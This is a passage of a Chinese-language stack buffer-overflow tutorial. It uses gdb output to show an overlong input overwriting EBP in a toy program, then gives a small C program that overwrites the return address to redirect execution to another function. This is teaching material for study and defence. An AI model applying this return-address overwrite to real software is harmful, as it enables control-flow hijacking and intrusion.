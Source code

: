```
0x80484b5 :    pushl  %eax
0x80484b6 :    pushl  $0x804852c
0x80484bb :    call   0x80483dc 
0x80484c0 :    addl   $0x8,%esp
/* get the return address, 0x80484d0, from stack and return to that address.
   you don't see that explicitly here because it is done by the CPU as 'ret' */
0x80484c3 :    leave
0x80484c4 :    ret
End of assembler dump.
```

**3a 程序溢出**

```
# ./blah
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx<- user input
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
# ./blah
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx <- user input
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Segmentation fault (core dumped)
# gdb blah core
(gdb) info registers
     eax:       0x24          36
     ecx:  0x804852f   134513967
     edx:        0x1           1
     ebx:   0x11a3c8     1156040
     esp: 0xbffffdb8 -1073742408
     ebp:   0x787878     7895160
```

‍‍EBP位于0×787878，这就意味我们已经写入了超出缓冲区输入可以控制的范围。0×78是十六进制的x。该过程有32个字节的最大的缓冲器。我们已经在内存中写入了比用户输入更多的数据，因此重写EBP，返回值的地址是‘xxxx’，这个过程会尝试在地址0×787878处重复执行，这就会导致段的错误。‍‍

**3b 改变返回值地址**

‍‍让我们尝试利用这个程序来返回lame()来代替它的返回值，我们要改变返回值的地址从0x80484d0到0x80484cb，在内存中，我们有32字节的缓冲区空间，4个字节保存EBP，4个字节的RET。下面是一个很简单的程序，把4个字节的返回地址变成一个1个字节字符缓冲区：‍‍

```
 main()
{
int i=0; char buf[44];
for (i=0;i<=40;i+=4)
*(long *) &buf[i] = 0x80484cb;
puts(buf);
}
# ret
ËËËËËËËËËËË,

# (ret;cat)|./blah
test <- user input
ËËËËËËËËËËË,test
test <- user input
test 
```

